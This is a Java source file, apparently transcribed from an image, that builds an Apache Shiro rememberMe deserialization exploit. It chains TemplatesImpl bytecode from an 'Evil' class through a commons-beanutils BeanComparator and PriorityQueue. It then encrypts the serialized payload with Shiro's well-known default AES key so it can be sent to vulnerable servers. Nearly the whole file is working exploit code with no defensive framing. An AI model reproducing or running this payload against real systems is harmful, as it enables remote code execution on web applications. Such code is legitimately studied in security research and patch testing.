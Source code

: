 ```
 **/


public class CommonsBeanutilsString {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
//        byte[] bytes = Evil.class.getName().getBytes();
//        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(bytes);
        byte[] payloads = new CommonsBeanutilsString().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }

}
```
